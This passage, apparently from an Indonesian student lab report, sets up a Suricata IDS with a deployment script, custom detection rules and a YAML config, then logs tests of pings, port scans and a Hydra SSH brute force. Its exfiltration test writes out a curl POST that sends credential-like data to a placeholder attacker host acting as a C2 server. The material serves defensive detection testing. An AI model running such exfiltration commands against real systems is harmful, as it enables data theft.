    echo -e "${YELLOW}[*] File sumber ditemukan. Siap melakukan replace...${NC}"
else
    echo -e "${RED}[!] ERROR: File suricata.yaml atau local.rules tidak ada di $SOURCE_DIR${NC}"
    exit 1
fi

# 3. Backup Konfigurasi Lama (Safety First)
echo -e "${YELLOW}[*] Backup konfigurasi lama di /etc/suricata/...${NC}"
cp /etc/suricata/suricata.yaml /etc/suricata/suricata.yaml.backup.$(date +%s) 2>/dev/null
echo -e "${GREEN}[OK] Backup selesai.${NC}"

# 4. REPLACE FILE (INTI PERMINTAAN ANDA)
echo -e "${YELLOW}[*] Menimpa konfigurasi sistem dengan file lokal Anda...${NC}"

# Replace suricata.yaml
cp -f "$SOURCE_DIR/$CONFIG_FILE" /etc/suricata/suricata.yaml

# Pastikan folder rules ada
mkdir -p /etc/suricata/rules

# Replace local.rules
cp -f "$SOURCE_DIR/$RULES_FILE" /etc/suricata/rules/local.rules

echo -e "${GREEN}[OK] File sistem berhasil diganti dengan file dari $SOURCE_DIR${NC}"

# 5. Konfigurasi /etc/default/suricata (Wajib untuk Startup)
echo -e "${YELLOW}[*] Mengupdate /etc/default/suricata...${NC}"
# Pastikan RUN=yes dan LISTENMODE=af-packet
sed -i 's/^RUN=.*/RUN=yes/' /etc/default/suricata
sed -i 's/^LISTENMODE=.*/LISTENMODE=af-packet/' /etc/default/suricata
# Hapus rule path default jika ada, biar suricata.yaml yang pegang kendali
sed -i 's/^SURICONF=.*/#SURICONF=\/etc\/suricata\/suricata.yaml/' /etc/default/suricata

# 6. Matikan Offloading Interface (Penting untuk Akurasi IDS)
echo -e "${YELLOW}[*] Tuning Interface (Disable Offload)...${NC}"
for iface in "${INTERFACES[@]}"; do
    if ip link show "$iface" > /dev/null 2>&1; then
        ethtool -K "$iface" gro off lro off
        echo -e "${GREEN}[OK] $iface ready.${NC}"
    fi
done

# 7. Validasi & Restart
echo -e "${YELLOW}[*] Validasi config baru...${NC}"
suricata -T -c /etc/suricata/suricata.yaml

if [ $? -eq 0 ]; then
    echo -e "${GREEN}[OK] Config Valid. Restarting Suricata...${NC}"
    systemctl daemon-reload
    service suricata restart

    echo -e "\n${GREEN}===========================================${NC}"
    echo -e "${GREEN}   DEPLOYMENT SELESAI & SUKSES             ${NC}"
    echo -e "${GREEN}===========================================${NC}"
    echo -e "File lokal Anda sekarang sudah aktif di sistem."
    echo -e "Cek log: tail -f /var/log/suricata/fast.log"
else
    echo -e "${RED}[!] Config Error. Cek pesan di atas.${NC}"
    exit 1
fi
```


## Setup local.rules

```
# ==========================================================
# SURICATA AGGRESSIVE DEMO RULES (NO DELAY, HIGH SENSITIVITY)
# ==========================================================

# 1. DETEKSI PING (Untuk Cek Konektivitas/Heartbeat)
# Menangkap semua ICMP dari mana saja ke mana saja.
alert icmp any any -> any any (msg:"[INFO] PING / ICMP Detected"; sid:100001; rev:1;)

# 2. DETEKSI PORT SCANNING (Nmap SYN)
# Logic: Setiap ada paket SYN (Awal koneksi) ke Server Riset, langsung ALERT!
# Hapus Threshold: 1 Paket pun langsung terdeteksi.
alert tcp any any -> $RISET_SERVER any (msg:"[WARN] Port Scanning / TCP Connection Attempt (SYN)"; flags:S; flow:stateless; sid:100002; rev:1;)

# 3. DETEKSI SSH BRUTE FORCE
# Logic: Jika ada paket SYN ke Port 22 lebih dari 2 kali dalam 10 detik.
# Dibuat sangat sensitif (Count 2) agar cepat muncul.
alert tcp any any -> $RISET_SERVER 22 (msg:"[ALERT] SSH Brute Force / Intense Login Attempt"; flags:S; flow:stateless; threshold: type both, track by_src, count 2, seconds 10; sid:100003; rev:1;)

# 4. DETEKSI DATA EXFILTRATION (HTTP)
# Logic: Mencari kata kunci 'confidential' dalam paket keluar.
# Hapus 'established' agar bisa mendeteksi payload di awal paket (jika ada).
alert tcp $RISET_SERVER any -> any any (msg:"[CRITICAL] Data Exfiltration Detected (Confidential)"; content:"confidential"; nocase; sid:100004; rev:1;)

#untuk data exfiltration
# RULE KHUSUS DEBUGGING - MENDETEKSI KATA 'CONFIDENTIAL' DI PAKET APAPUN
alert tcp any any -> any any (msg:"[CRITICAL] Data Exfiltration DETECTED (Raw Content)"; content:"confidential"; nocase; sid:9999999; rev:1;)
```


## Setup suricata.yaml

```
%YAML 1.1
---
# =========================================================================
# SURICATA CONFIGURATION (MERGED: DEFAULT + USER CUSTOM)
# =========================================================================

vars:
  address-groups:
    # --- [USER CONFIG] Network Definitions ---
    # Definisi Network Luas (RFC1918)
    HOME_NET: "[192.168.0.0/16, 10.0.0.0/8, 172.16.0.0/12]"
    EXTERNAL_NET: "!$HOME_NET"

    # Definisi Custom Variables Anda
    MAHASISWA_NET: "[192.168.6.0/24]"
    RISET_SERVER: "192.168.8.4"

    # --- [DEFAULT] Server Definitions (Essential for Flow) ---
    HTTP_SERVERS: "$HOME_NET"
    SMTP_SERVERS: "$HOME_NET"
    SQL_SERVERS: "$HOME_NET"
    DNS_SERVERS: "$HOME_NET"
    TELNET_SERVERS: "$HOME_NET"
    AIM_SERVERS: "$EXTERNAL_NET"
    DC_SERVERS: "$HOME_NET"
    DNP3_SERVER: "$HOME_NET"
    DNP3_CLIENT: "$HOME_NET"
    MODBUS_CLIENT: "$HOME_NET"
    MODBUS_SERVER: "$HOME_NET"
    ENIP_CLIENT: "$HOME_NET"
    ENIP_SERVER: "$HOME_NET"

  port-groups:
    # --- [DEFAULT] Port Definitions (Essential for Protocol Detection) ---
    HTTP_PORTS: "80"
    SHELLCODE_PORTS: "!80"
    ORACLE_PORTS: 1521
    SSH_PORTS: 22
    DNP3_PORTS: 20000
    MODBUS_PORTS: 502
    FILE_DATA_PORTS: "[$HTTP_PORTS,110,143]"
    FTP_PORTS: 21
    GENEVE_PORTS: 6081
    VXLAN_PORTS: 4789
    TEREDO_PORTS: 3544

# =========================================================================
# INTERFACES (AF-PACKET) - [USER CONFIG]
# =========================================================================
af-packet:
  # Interface Utama
  - interface: eth0
    cluster-id: 99
    cluster-type: cluster_flow
    defrag: yes
    use-mmap: yes
    tpacket-v3: yes

  # Jalur MHS (Sumber Serangan)
  - interface: eth2
    cluster-id: 98
    cluster-type: cluster_flow
    defrag: yes
    use-mmap: yes
    tpacket-v3: yes

  # Jalur Riset (Target Serangan)
  - interface: eth4
    cluster-id: 97
    cluster-type: cluster_flow
    defrag: yes
    use-mmap: yes
    tpacket-v3: yes

# =========================================================================
# APP-LAYER (PARSER) - [DEFAULT] (WAJIB ADA AGAR RULE BEKERJA)
# =========================================================================
app-layer:
  protocols:
    rfb: { enabled: yes, detection-enabled: yes }
    mqtt: { enabled: yes }
    krb5: { enabled: yes }
    snmp: { enabled: yes }
    ikev2: { enabled: yes }
    tls: { enabled: yes, detection-enabled: yes }
    dcerpc: { enabled: yes }
    ftp: { enabled: yes }
    ssh: { enabled: yes }
    smtp: { enabled: yes }
    imap: { enabled: yes, detection-enabled: yes }
    smb: { enabled: yes, detection-enabled: yes }
    dns: { tcp: { enabled: yes, detection-enabled: yes }, udp: { enabled: yes, detection-enabled: yes } }
    http: { enabled: yes }
    nfs: { enabled: yes }
    ntp: { enabled: yes }
    dhcp: { enabled: yes }
    sip: { enabled: yes }

# =========================================================================
# LOGGING (OUTPUTS)
# =========================================================================
outputs:
  - fast:
      enabled: yes
      filename: fast.log
      append: yes
  - eve-log:
      enabled: yes
      filetype: regular
      filename: eve.json
      types:
        - alert
        - http: { extended: yes }
        - dns
        - tls: { extended: yes }
        - files: { force-magic: yes }
        - ssh

# =========================================================================
# RULES & ENGINE SETTINGS - [USER CONFIG + DEFAULT]
# =========================================================================

default-rule-path: /etc/suricata/rules

rule-files:
  # - suricata.rules # Dinonaktifkan sesuai permintaan
  - local.rules      # Hanya menggunakan custom rules

# Stream Engine
stream:
  memcap: 64mb
  checksum-validation: no # <-- [USER CONFIG] Diubah ke 'no' sesuai permintaan
  inline: auto
  reassembly:
    memcap: 256mb
    depth: 1mb
    toserver-chunk-size: 2560
    toclient-chunk-size: 2560
    randomize-chunk-size: yes

# Host Tracking
host:
  hash-size: 4096
  prealloc: 1000
  memcap: 32mb

# Detection Engine
detect:
  profile: medium
  custom-values:
    tny-c: { signature-group: 20, priority: 3 }
    tny-c-2: { signature-group: 20, priority: 3 }

logging:
  default-log-level: notice
  outputs:
  - console: { enabled: yes }
  - file: { enabled: yes, level: info, filename: suricata.log }
```


## Uji coba IDS




Dari MHS1




Melakukan uji coba ping dari node akademik1 -> mhs1



Hasil dari IDS yang ada sebagai berikut




Ada log di mana yang melakukan ping dari subnet Akademik (192.168.3.2) menuju host mhs1 yakni (192.168.6.2), dan arti dari 192.168.3.2:8 ialah  salah satu node dari subnet Akademik ada yang melakukan ping pada host mhs1(192.168.6.2) dengan ICMP Type 8 (ECHO/Request ping)


host mhs1 mencoba melakukan scanning ke node Lab,setelah node Lab aktif, maka hasilnya yang didapatkan ialah Connection Reset (RST)


Sebelum node Lab aktif:



&#x20;Setelah node Lab aktif : 



Dapat dibandingkan bahwasannya setelah node Lab aktif alias menyala maka pada Host mhs1 tadi yang berusaha melakukan port scanning akan memunculkan hasil RST itu karena adanya pemblokiran dari firewall sehingga mhs1 tidak dapat lagi melakukan port scanning.




***

Pada dokumentasi berikut host dari akademik1 mencoba melakukan serangan dengan menginvestigasi semua port yang terbuka




Namun hasilnya pada host akademik1 sendiri tidak mendapatkan informasi terkait hal tersebut dikarenakan hal tersebut dicegah & diblokir oleh firewall.


***


host mhs pada subnet mahasiswa mencoba melakukan ping pada daerah atau node Lab maka akan sama saja terwakilkan dengan menggunakan alamat router yakni 192.168.2.2 itu karena konfigurasi NAT MASQUERADE pada main router & main firewall nya.




Pada node mhs2 berusaha untuk melakukan scanning pada daerah Lab (192.168.8.4) maka hasilnya akan muncul pada log atau histori bahwasannya adanya aktivitas port scanning




Pada dokumentasi gambar di bawah ini, dapat diperhatikan bahwa ketika mhs2 mencoba SSH ke Lab (192.168.8.4) maka pada log muncul deteksi Intense Login Attempt






Percobaan bruteforcing SSH node lab 


Uji coba bruteforcing SSH dilakukan pada node mhs1 sebagai berikut 







Dapat diperhatikan pada uji coba bruteforcing log pada IDS dapat menangkap serangan uji coba bruteforce pada SSH Lab (192.168.8.4), mengapa ada deteksi packet ICMP serta SYN Scanning, karena dari tools Hydra mencoba untuk memastikan pada target  apakah target memiliki port 22 serta di awal request hydra mencoba semacam perkenalan apakah target dalam kondisi online atau offline.


Uji coba data exfiltration dengan yang open port ialah node akademik1(192.168.7.2) sebagai attacker dan victim ialah riset1(192.168.8.2)

&#x20;   
**Riset1** disimulasikan sebagai komputer yang sudah terinfeksi *Spyware*. Spyware itu (perintah `curl` yang diketik) secara aktif menghubungi markasnya.

* **Akademik1** disimulasikan sebagai **C2 Server (Command and Control)** milik hacker yang siap menerima data curian tersebut.








```
# Ganti <IP_ATTACKER> dengan IP mhs1 (Contoh: 192.168.2.2)
curl -X POST -d "user=admin&pass=ini_data_confidential_penting" http://<IP_ATTACKER>/upload
```


Arti protocol yang dikirimkan (sending)

jika terdapat sebuah {IP\_ADDRESS}:1 -> maka ini artinya host atau node yang sedang di tuju tidak available atau offline dalam artian ICMP Code **Host Unreachable,&#x20;**&#x6E;ah biasanya ICMP Type1 code ini merupakan detailing dari pesan ICMP Type code 3


{IP\_ADDRESS}:3 -> Memiliki makna **Destination Unreachable&#x20;**


{IP\_ADDRESS}:0 -> Merupakan pesan Reply (ECHO Reply) di mana biasanya sebuah receiver atau node yang di ping merespon bahwasannya ia sedang online atau aktif , itu artinya aktivitas PING berhasil.

